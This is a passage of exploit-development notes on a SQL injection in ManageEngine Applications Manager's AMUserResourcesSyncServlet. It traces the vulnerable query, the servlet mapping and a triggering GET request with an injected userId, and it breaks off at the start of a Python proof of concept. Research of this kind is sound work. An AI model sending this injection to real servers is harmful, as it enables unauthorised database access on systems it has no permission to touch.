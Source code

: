 ```Java
```
* Line 70 shows the SQL Query and line 76 executes it. Looking for when this function is called: 
```Java
42:     if ((chkRestrictedRole != null) && ("true".equals(chkRestrictedRole)))
43:     {
44:       boolean isRestricted = RestrictedUsersViewUtil.isRestrictedRole(userId);
45:       out.println(isRestricted);
46:
47:
48:     }
49:     else if (masRange != null) 
        {
50:       if ((userId != null) && (!"".equals(userId))) {
52:         fetchUserResourcesofMASForUserId(userId, masRange, out);
          } else {
56:         fetchAllUserResourcesForMAS(masRange, out);
57:       }
58:     }
``````
* Need to enter the `else if` statement. Then we can enter `fetchAllUserResourcesForMAS` and access the query.
# Triggering the Vuln
* We need a URL to trigger the vulnerability. 
* Within the `web.xml` we know the URL uses this:
Mapping:
```Java
<servlet-mapping>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>
```
Mapping Location:
```Java
<servlet>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
</servlet>
```
* Need 2 paramaters to trigger:
```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1; HTTP/1.1
Host: manageengine:8443
```
Add the semi colon as there are no terminators in the query, so we can manually terminate it. 
```SQL
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE
where USERID=" + userId + " and RESOURCEID >" + stRange + " and
RESOURCEID < " + endRange;
```
# Convert into a POC
```Python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
	if len(sys.argv) != 2:
		print "(+) usage %s <target>" % sys.argv[0]
		print "(+) eg: %s target" % sys.argv[0]
		sys.exit(1)
```